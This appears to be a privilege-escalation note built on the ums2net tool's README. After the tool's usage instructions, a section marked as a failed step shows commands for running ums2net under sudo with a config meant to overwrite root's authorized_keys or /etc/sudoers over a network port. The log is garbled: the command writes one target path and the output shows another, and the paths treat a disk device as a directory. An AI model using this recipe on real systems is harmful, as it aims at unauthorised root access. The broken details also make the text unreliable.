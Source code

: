 1. Insert the USB Mass Storage. Check /dev/disk/by-id/ for the unique path for that device.
2. Create a config file base on the above path. Please see the config file format section.
3. Run "ums2net -c ". ums2net will become a daemon in the background. For debugging please add "-d" option to avoid detach.
4. Use nc to write your image to the USB Mass Storage device. For example, "nc -N localhost 29543 < warp7.img".

[**#Config file**]

Each line in the config file maps a TCP port to a device. All the options are separated by space. The first argument is a number represents the TCP port. And the rest of the arguments are in dd-style. For example, a line in the config file:
```
"29543 of=/dev/disk/by-id/usb-Linux_UMS_disk_0_WaRP7-0x2c98b953000003b5-0:0 bs=4096"
```
It means TCP port 29543 is mapped to /dev/disk/by-id/usb-Linux_UMS_disk_0_WaRP7-0x2c98b953000003b5-0:0 and the block size is 4096.
Currently we only support "of" and "bs".

![Victim: ice](https://img.shields.io/badge/Victim-ice-64b5f6?logo=linux&logoColor=white)

<❌ Failed Step.>

`ls -alps /dev/disk/by-id`:
```
total 0
0 drwxr-xr-x 2 root root 140 oct 10 09:51 ./
0 drwxr-xr-x 7 root root 140 oct 10 09:51 ../
0 lrwxrwxrwx 1 root root   9 oct 10 09:51 ata-VBOX_CD-ROM_VB2-01700376 -> ../../sr0
0 lrwxrwxrwx 1 root root   9 oct 10 09:51 ata-VBOX_HARDDISK_VB0d0bf3c8-2442609b -> ../../sda
0 lrwxrwxrwx 1 root root  10 oct 10 09:51 ata-VBOX_HARDDISK_VB0d0bf3c8-2442609b-part1 -> ../../sda1
0 lrwxrwxrwx 1 root root  10 oct 10 09:51 ata-VBOX_HARDDISK_VB0d0bf3c8-2442609b-part2 -> ../../sda2
0 lrwxrwxrwx 1 root root  10 oct 10 09:51 ata-VBOX_HARDDISK_VB0d0bf3c8-2442609b-part5 -> ../../sda5
```

`df /`:
```
S.ficheros     bloques de 1K  Usados Disponibles Uso% Montado en
/dev/sda1           19480400 2328956    16136560  13% / ←
```

`echo "5555 of=/dev/disk/by-id/ata-VBOX_HARDDISK_VB0d0bf3c8-2442609b-part1/root/.ssh/authorized_keys bs=4096" | tee ./config`:
```
5555 of=/dev/disk/by-id/ata-VBOX_HARDDISK_VB0d0bf3c8-2442609b-part1/etc/sudoers bs=4096
```

`sudo /usr/sbin/ums2net -c ./config -d &`

`ss -tnlp '( sport = :5555 )'`:
```
State                 Recv-Q                Send-Q                               Local Address:Port                                  Peer Address:Port                Process                
LISTEN                0                     10                                               *:5555 ←                                          *:*
```
